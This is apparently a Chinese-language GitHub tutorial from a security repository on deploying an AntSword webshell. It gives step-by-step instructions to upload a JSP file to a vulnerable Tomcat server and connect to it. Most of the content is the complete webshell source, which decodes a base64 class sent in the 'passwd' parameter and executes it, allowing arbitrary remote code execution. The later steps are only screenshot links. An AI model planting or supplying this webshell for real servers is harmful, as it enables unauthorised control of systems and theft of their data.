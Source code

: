 ### 1、下载蚁剑
```
https://github.com/AntSwordProject/AntSword-Loader
```
### 2、编写蚁剑shell，上传至tomcat漏洞服务器:

yijian_shell.jsp

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>

```

### 3、将此文件，上传至tomcat漏洞服务器，在服务器上命名为yijian_shell.jsp
![image](https://github.com/498946975/Security/blob/master/images/image-20211226161120663.png)

### 4、用蚁剑shell连接tomcat服务器
![image](https://github.com/498946975/Security/blob/master/images/image-20211226165421403.png)

![image](https://github.com/498946975/Security/blob/master/images/image-20211226165536391.png)

![image](https://github.com/498946975/Security/blob/master/images/image-20211226165649654.png)



